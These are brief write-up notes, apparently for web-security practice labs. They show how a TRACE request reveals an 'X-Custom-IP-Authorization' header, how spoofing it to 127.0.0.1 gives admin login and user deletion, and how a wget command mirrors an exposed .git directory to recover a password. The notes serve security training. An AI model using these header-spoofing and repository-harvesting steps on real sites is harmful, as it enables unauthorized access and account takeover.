 

# Lab: Authentication bypass via information disclosure

Should repeat one of the login packets but instead of GET use TRACE to get the http reponse headers used in autentication. We then get:

```
X-Custom-IP-Authorization: 84.109.20.63
```
This is our extenal IP - we need to verify ourselves as Admmins, so lets change this to localhost

Now we can use this autherization header to permit to enter the admin panel:
```
X-Custom-IP-Authorization: 127.0.0.1
```

Enter the admin with this login request:
```
POST /login HTTP/1.1
...
X-Custom-IP-Authorization: 127.0.0.1

csrf=f9rivO9QlHCwOVBBVmjTuQrJSYFadDXO&username=admin&password=1234
```

Now we get the admin panel in order to delete carlos with this request:
```
GET /admin/delete?username=carlos HTTP/1.1
...
X-Custom-IP-Authorization: 127.0.0.1
```


# Lab: Information disclosure in version control history

First we downlaod the full git repository using the command:

```
wget -r TARGET.COM/.git
```

Then use git show to see the changes, where there is a commit that deleted the admin password - with the password
